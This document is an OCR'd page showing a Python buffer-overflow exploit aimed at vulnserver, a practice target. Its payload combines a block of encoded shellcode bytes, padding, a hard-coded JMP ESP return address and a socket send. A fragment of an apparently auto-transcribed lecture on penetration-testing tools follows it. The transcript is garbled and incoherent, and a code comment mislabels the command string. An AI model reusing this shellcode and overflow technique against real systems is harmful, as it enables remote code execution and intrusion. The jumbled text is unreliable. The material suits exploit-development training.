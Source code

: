 ```
SHELL += b"\xab\x65\x1d\xd0\x1c\xc3\x7b\xdf\x9d\x78\xbf\x7e"
SHELL += b"\x1e\x83\xec\xa0\x1f\x4c\xe1\xa1\x58\xb1\x08\xf3"
SHELL += b"\x31\xbd\xbf\xe3\x36\x8b\x03\x88\x05\x1d\x04\x6d"
SHELL += b"\xdd\x1c\x25\x20\x55\x47\xe5\xc3\xba\xf3\xac\xdb"
SHELL += b"\xdf\x3e\x66\x50\x2b\xb4\x79\xb0\x65\x35\xd5\xfd"
SHELL += b"\x49\xc4\x27\x3a\x6d\x37\x52\x32\x8d\xca\x65\x81"
SHELL += b"\xef\x10\xe3\x11\x57\xd2\x53\xfd\x69\x37\x05\x76"
SHELL += b"\x65\xfc\x41\xd0\x6a\x03\x85\x6b\x96\x88\x28\xbb"
SHELL += b"\x1e\xca\x0e\x1f\x7a\x88\x2f\x06\x26\x7f\x4f\x58"
SHELL += b"\x89\x20\xf5\x13\x24\x34\x84\x7e\x21\xf9\xa5\x80"
SHELL += b"\xb1\x95\xbe\xf3\x83\x3a\x15\x9b\xaf\xb3\xb3\x5c"
SHELL += b"\xcf\xe9\x04\xf2\x2e\x12\x75\xdb\xf4\x46\x25\x73"
SHELL += b"\xdc\xe6\xae\x83\xe1\x32\x60\xd3\x4d\xed\xc1\x83"
SHELL += b"\x2d\x5d\xaa\xc9\xa1\x82\xca\xf2\x6b\xab\x61\x09"
SHELL += b"\xfc\xde\x75\x13\xf4\xb6\x77\x13\x15\x1b\xf1\xf5"
SHELL += b"\x7f\xb3\x57\xae\x17\x2a\xf2\x24\x89\xb3\x28\x41"
SHELL += b"\x89\x38\xdf\xb6\x44\xc9\xaa\xa4\x31\x39\xe1\x96"
SHELL += b"\x94\x46\xdf\xbe\x7b\xd4\x84\x3e\xf5\xc5\x12\x69"
SHELL += b"\x52\x3b\x6b\xff\x4e\x62\xc5\x1d\x93\xf2\x2e\xa5"
SHELL += b"\x48\xc7\xb1\x24\x1c\x73\x96\x36\xd8\x7c\x92\x62"
SHELL += b"\xb4\x2a\x4c\xdc\x72\x85\x3e\xb6\x2c\x7a\xe9\x5e"
SHELL += b"\xa8\xb0\x2a\x18\xb5\x9c\xdc\xc4\x04\x49\x99\xfb"
SHELL += b"\xa9\x1d\x2d\x84\xd7\xbd\xd2\x5f\x5c\xdd\x30\x75"
SHELL += b"\xa9\x76\xed\x1c\x10\x1b\x0e\xcb\x57\x22\x8d\xf9"
SHELL += b"\x27\xd1\x8d\x88\x22\x9d\x09\x61\x5f\x8e\xff\x85"
SHELL += b"\xcc\xaf\xd5"

# Payload to inject into vulnserver
PAYLOAD = (
    b'KNOCK /.:/' +  # TRUN command of the server
    b'A' * 2002 +   # padding 
    # 62501205   FFE4             JMP ESP
    # Return a bytes object.
    # Format string '<L': < means little-endian;
    # L means unsigned long
    struct.pack('<L', 0x6250151C) + 
    b'C' * 32 +
    SHELL
    # b'C' * (5000 - 2003 - 4 - 32 - len(SHELL)) # no need really
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)

```


is using metasploit so minus plus you
have to run a few commands a lot of
commands okay i'll show you
so the third approach is using montage
that's what you are using today
but let's look at each option you see
which one
actually you want to sell to your
customers right so basically you are
selling your products to
the print testers okay
so the first option is a programming or
two
and uh
so anybody here can program a
penetration testing tool
do you know how to start